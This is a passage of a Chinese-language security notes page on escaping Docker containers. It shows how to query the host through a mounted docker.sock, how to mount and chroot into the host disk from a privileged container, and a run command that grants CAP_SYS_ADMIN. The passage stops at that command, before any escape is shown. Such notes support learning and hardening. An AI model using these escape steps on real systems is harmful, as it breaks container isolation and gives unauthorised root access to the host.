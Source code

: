 安装docker client环境

```text
apt-get install docker.io
```

查看宿主机信息:

```text
docker -H unix:///host/var/run/docker.sock info
```

#### Privileged Mode

在特权模式下运行不完全受控容器，将会给宿主机带来极大安全威胁，当执行：  
docker run —privileged

Docker将允许容器访问宿主机上的设备，也拥有修改AppArmor或者SeLinux的权限，相当于就是宿主权限。

当管理员使用特权运行容器时：

```text
docker run -it --rm --privileged ubuntu:latest bash
```

其中特权模式下可以看到宿主机上的设备，直接进行挂载磁盘，然后将根目录切换过去。

```text
fdisk -l
mkdir /host
mount /dev/vda1 /host
cd /host
chroot ./ bash
```

![](../../.gitbook/assets/image%20%28603%29.png)

#### Capabilities

容器社区一直在努力将**纵深防御、最小权限等理念和原则落地**，目前Docker已经将Capabilities黑名单机制改为了默认禁止所有Capabilities，再以白名单方式赋予容器运行所需的最小权限。

如果用户启动容器时指定参数，那么使用了一些危害参数那么很可能给攻击者提供了一定程度逃逸的可能性。

**CAP\_SYS\_ADMIN**

启动容器指定CAP\_SYS\_ADMIN：

```text
docker run —rm -it —cap-add=CAP_SYS_ADMIN —security -opt apparmor=unconfined ubuntu /bin/bash
```
